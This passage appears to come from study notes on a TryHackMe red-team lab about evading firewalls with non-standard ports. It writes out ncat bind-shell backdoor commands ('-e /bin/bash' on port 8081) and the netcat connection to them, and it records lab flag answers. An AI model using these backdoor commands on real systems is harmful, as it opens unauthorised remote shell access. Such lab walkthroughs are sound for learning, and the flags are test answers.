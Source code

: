 ![](../images/Pasted%20image%2020250523144658.png)

We got our flag:

```
THM{1298331956} 
```



# Evasion Using Non-Standard Ports

---

`ncat -lvnp PORT_NUMBER -e /bin/bash` will create a backdoor via the specified port number that lets you interact with the Bash shell.

- `-e` or `--exec` executes the given command
- `/bin/bash` location of the command we want to execute

On the AttackBox, we can run `ncat 10.10.19.194 PORT_NUMBER` to connect to the target machine and interact with its shell.

Considering the case that we have a firewall, it is not enough to use `ncat` to create a backdoor unless we can connect to the listening port number. Moreover, unless we run `ncat` as a privileged user, `root`, or using `sudo`, we cannot use port numbers below 1024.

![](../images/Pasted%20image%2020250523144900.png)


```
ncat -lvnp 8081 -e /bin/bash
```

![](../images/Pasted%20image%2020250523144807.png)

```
nc MACHINE_IP 8081
```

![](../images/Pasted%20image%2020250523144839.png)

We got our answer:

```
thmredteam
```


# Next-Generation **Firewalls**

---

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.
